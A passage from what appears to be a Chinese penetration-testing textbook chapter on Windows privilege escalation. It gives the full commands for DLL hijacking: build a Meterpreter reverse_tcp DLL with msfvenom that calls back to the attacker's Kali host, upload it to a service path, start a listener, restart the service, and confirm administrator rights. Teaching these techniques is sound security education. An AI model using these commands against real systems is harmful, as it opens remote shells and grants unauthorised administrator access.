1.  我们可以使用 `msfvenom` 生成自定义 DLL，并通过在 Kali 中运行以下命令来使用 Meterpreter 有效载荷：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=PORT -f dll > hijackme.dll`

    我们将保存自定义 DLL 文件，命名为缺失 DLL 的名称，用于 `dllhijackservice.exe` 服务。对于我们的情况，我们将劫持 `hijackme.dll` DLL。

1.  在生成自定义 DLL 后，我们可以将其传输到目标系统的相应服务路径中。对于我们的情况，路径将如下所示：

    `C:\Windows\System32\wbem`

    我们可以通过运行以下命令，使用 Meterpreter 上传自定义 DLL：

    `upload /PATH-TO-DLL/hijackme.dll`

    如下图所示，`hijackme.dll` 文件应该被上传到正确的路径：

    

    图 8.32 – 上传自定义 DLL

1.  现在我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成：

    `use /exploit/multi/handler`

1.  下一步是指定我们用 `msfvenom` 创建二进制文件时使用的有效载荷。可以通过运行以下命令来完成：

    `set payload /windows/x64/meterpreter/reverse_tcp`

    现在我们需要配置模块选项。在这种情况下，我们需要配置 `LHOST` 和 `LPORT` 选项，如下图所示：

    

    图 8.33 – Meterpreter 监听器选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    `run`

    监听器将监听来自我们使用 `msfvenom` 生成的有效载荷的任何传入连接。

1.  为了执行自定义 DLL，我们需要重新启动 `dllsvc` 服务。可以通过在 Windows 命令行中运行以下命令来完成：

    `sc stop dllsvc`

    `sc start dllsvc`

    如果你正确地跟随了迄今为止的步骤，你应该能在我们设置的监听器上接收到一个 Meterpreter 会话，如下所示：

    

    图 8.34 – DLL 劫持 Meterpreter

1.  我们可以通过运行以下命令验证我们是否已经获得了提升的 Meterpreter 会话：

    `getuid`

    如下图所示，我们已经成功提升了权限，应该拥有一个带有管理员权限的 Meterpreter 会话：



图 8.35 – getuid Meterpreter

我们通过识别缺失的 DLL 并生成一个自定义 DLL 来提升权限，从而获得了一个能够提供提升权限的 Meterpreter 会话。

# 总结

在本章中，我们首先了解了如何识别和利用未加引号的服务路径，以及如何利用它们执行恶意二进制文件以提升权限。我们还探索了如何手动和自动利用 Metasploit 框架进行 Windows 次级登录的漏洞利用。接着，我们了解了如何识别和利用弱服务权限，并通过深入探讨如何识别缺失的 DLL 文件以及执行 DLL 劫持的过程来结束本章。

在下一章中，我们将探索通过 Windows 注册表进行权限提升的过程。
